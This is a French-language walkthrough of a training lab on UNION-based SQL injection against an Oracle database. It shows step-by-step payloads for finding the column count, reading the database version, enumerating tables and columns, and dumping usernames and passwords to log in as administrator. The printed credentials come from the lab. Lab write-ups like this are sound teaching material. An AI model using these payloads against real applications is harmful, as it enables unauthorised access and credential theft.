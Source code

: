 ## DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

Même énoncé que le précédent lab, mais cette fois-ci pour Oracle.

On liste le nombre de colonnes et leurs compatibilités :

```
'ORDER BY 1--
'ORDER BY 2--
'UNION SELECT 'a','a' FROM dual--
```

2 colonnes, toutes deux compatibles.

L'énoncé précise le type de database, mais il n'est jamais inutile de vérifier par sécurité, ainsi que pour avoir la version :

```
'UNION SELECT banner,'a' FROM v$version--
```

La page retourne : Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

On peut dorénavant chercher dans la documentation les noms de colonne correspondant à **all_tables** et **all_tab_columns**

all_tables :
https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm

all_tab_columns :
https://docs.oracle.com/cd/E18283_01/server.112/e17110/statviews_2103.htm

Au sein de all_tables, on voit la colonne **TABLE_NAME**, testons :
```
'UNION SELECT NULL,TABLE_NAME FROM all_tables--
````

Une table intéressante à l'appelation similaire au précédent lab apparait sous la page :

- USERS_TPVSXB

On peut tout d'abord essayer avec la colonne **COLUMN_NAME** indiquée dans la documentation sur all_tab_columns :

```
'UNION SELECT TABLE_NAME,COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS_TPVSXB'--
```
On obtient les colonnes 

- PASSWORD_XVTDAX
- USERNAME_EZHTIK

```
'UNION SELECT PASSWORD_XVTDAX,USERNAME_EZHTIK FROM USERS_TPVSXB--
```

Comme prévu, on obtient le mot de passe et les username :

- 5p2yoeaye2wu5xhue4ku
- carlos
- di6qrfsx6ew91lvepigo
- wiener
- ********************
- administrator

Une fois le mot de passe obtenu, il suffit de se connecter en tant qu'administrateur pour terminer le lab.